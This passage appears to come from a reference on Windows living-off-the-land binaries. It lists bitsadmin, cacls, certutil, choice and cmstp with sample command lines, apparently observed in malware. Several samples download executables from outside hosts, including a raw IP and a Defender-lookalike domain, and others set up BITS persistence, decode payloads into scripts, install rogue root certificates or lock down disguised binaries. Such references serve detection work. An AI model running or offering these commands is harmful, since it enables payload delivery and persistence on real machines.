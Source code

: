 Command  line examples:

    bitsadmin /complete QaeGF
    bitsadmin /create /download QaeGF
    bitsadmin /setcustomheaders QaeGF User-Agent:LACARNECOTTA
    bitsadmin /transfer AE /priority foreground https://jgc.com.mx/dat/heavy.jpg %USERPROFILE%\document.exe
    bitsadmin /Resume wstatus
    bitsadmin /SetNotifyCmdLine wstatus "%ALLUSERSPROFILE%\Oracle\hok\jahok.exe" "update"
    bitsadmin /cancel drp_bits_job
    bitsadmin /transfer Nv /priority foreground http://154.16.201.215:2330/ari.exe %USERPROFILE%\RK.exe

### calcs
Function: Displays or modifies discretionary access control lists (DACL) on specified files. An access control list is a list of permissions for securable object, such as a file or folder, that controls who can access it. 

Command  line examples:

    cacls %ALLUSERSPROFILE%\expl0rer.exe /d everyone
    cacls C:\Users\%OSUSER% /T /C /P %OSUSER% :F

### certutil
Function: Windows binary used for handeling certificates. It can also use to download file from internet.

Command  line examples:

    certutil -addstore "Root" p.pem
    certutil -addstore -f "TrustedPublisher" "%PROGRAMFILES%\OpenVPN Technologies\PrivateTunnel\Cert\OpenVPNTechForTap6.cer"
    certutil -decode %TEMP%\B %TEMP%\y.bat
    certutil -A -n "root" -t "TCu,Cuw,Tuw" -i "rootcert.cer" -d "%APPDATA%\Mozilla\Firefox\Profiles/fg6ygf16.default"
    certutil -f -addStore root "%TEMP%\is-5OHTO.tmp\BaltimoreCyberTrustRoot.crt"
    certutil -f -decode %ALLUSERSPROFILE%\Windows\Microsoft\java\dUpdateCheckers.base d.ps1
    certutil -urlcache -split -f http://cache.windowsdefenderhost.com/windows/RecentFileProgrom.exe "C:\\Windows\\Fonts\\RecentFileProgrom.exe"

### choice.exe
Function: Prompts the user to select one item from a list of single-character choices in a batch program, and then returns the index of the selected choice. If used without parameters, choice displays the default choices Y and N.

Command  line examples:

    choice /C Y /N /D Y /T 3
    choice /t 3 /d y /n

### cmstp.exe
Function: CMSTP is a binary which is associated with the Microsoft Connection Manager Profile Installer. It accepts INF files which can be weaponised with malicious commands in order to execute arbitrary code in the form of scriptlets (SCT) and DLL.
